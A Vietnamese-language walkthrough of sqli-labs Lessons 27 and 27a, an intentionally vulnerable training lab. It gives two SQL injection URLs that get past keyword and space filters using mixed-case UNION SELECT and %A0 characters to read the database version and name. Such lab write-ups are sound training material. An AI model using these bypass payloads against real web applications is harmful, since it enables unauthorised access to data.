





# Những việc làm được với lesson-27
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-27



Tôi có thử một số cách giống như các bài đầu tiên làm là thêm các ký tự đặc biệt vào trong 



Chúng ta để ý rằng làm như vậy không còn được nữa. Chúng ta cũng bị cấm từ `SELECT` và `UNION`. Tôi cũng không thể viết một cách bình thường được 



Nhưng khi viết trộn lẫn giữa ký tự hoa và thường nó sẽ có một kết quả khác 

```
http://192.168.80.225/sqli-labs/Less-27/?id=0%27%A0UnIoN%A0SeLeCt(1),version(),database()%a0%271
```



Chúng ta đã tìm ra được cấu trúc của nó và cách để truy xuất dữ liệu

# Bài 27a 
```
http://192.168.80.225/sqli-labs/Less-27a/?id=0%22%A0UnIoN%A0SeLeCt(1),version(),database()%26%26%a0%221
```

Bài 27a ta làm giống như với bài 27 nhưng với cấu trúc khác với 27 thôi. Như bài 27 `'` được thay bằng `%27` thì ở bài 27a được thay thế `"` bằng `%22` 



Ta có thể truy xuất được dữ liệu bằng cách này và select theo cách để biết được dữ liệu trong DB 